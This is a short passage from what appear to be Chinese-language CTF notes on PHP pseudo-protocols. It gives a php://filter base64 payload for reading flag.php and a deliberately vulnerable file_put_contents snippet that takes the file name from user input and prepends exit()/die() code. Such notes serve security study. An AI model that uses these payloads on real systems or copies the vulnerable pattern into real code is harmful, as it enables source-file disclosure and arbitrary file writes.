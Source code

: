payload：

```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![filter_read](.\php伪协议image\filter_read.png)

![filter_base64](.\php伪协议image\filter_base64.png)

### 文件写入场景—file_put_content和死亡·杂糅

参考：

https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57KWwo3lErTD#toc-3

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

针对文件写入场景主要是处理死亡`exit(); die(); ?>`的情况

如下场景：

```php
<?php
    highlight_file(__FILE__);
    echo $_POST['content'];
    file_put_contents(urldecode($_GET['file']), "<?php exit('66');?>".$content);
    /*file_put_contents(urldecode($_GET['file']), "<?php die('66');?>".$content);*/
?>
```
